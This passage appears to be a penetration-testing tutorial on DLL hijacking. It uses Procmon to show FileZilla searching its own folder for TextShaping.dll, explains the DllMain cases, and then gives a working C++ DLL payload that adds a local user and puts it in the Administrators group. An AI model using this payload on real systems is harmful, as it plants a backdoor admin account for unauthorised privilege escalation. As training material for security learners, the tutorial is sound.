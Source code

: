 After filtering the results, we can click _Clear_ (red bin icon) and start the process we are interested in. Since we are interested specifically in the `TextShaping.dll` we can create another filter targeting that.

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252FBSP0wbThY6RBe4sGUAI2%252Fprocmon_2.png%3Falt%3Dmedia%26token%3Dd8d03059-412c-4724-96e1-8659f8c565da&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=6debbcd0&#x26;sv=2" alt=""><figcaption></figcaption></figure>

Based on the above screenshot, the binary tries to load the `TextShaping.dll` from `C:\Filezilla\Filezilla FTP Client\` and it can't find it. It then proceeds to search and find it from `C:\Windows\System32\`.&#x20;

Each DLL can have an optional **entry point function** named `DllMain`, which is executed when processes or threads attach the DLL. This function generally contains four cases named:

1. `DLL_PROCESS_ATTACH`
2. `DLL_THREAD_ATTACH`
3. `DLL_THREAD_DETACH`
4. `DLL_PROCESS_DETACH`

These cases handle situations when the DLL is loaded or unloaded by a process or thread. They are commonly used to perform initialization tasks for the DLL or tasks related to exiting the DLL. If a DLL doesn't have a `DllMain` entry point function, it only provides resources. We are interested in the `DLL_PROCESS_ATTACH` section of the code, since this is used when a process is loading the DLL.

{% tabs %}
{% tab title="1. Payload" %}
{% code title="dll_hijacking.cpp" %}
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
{% endcode %}
{% endtab %}
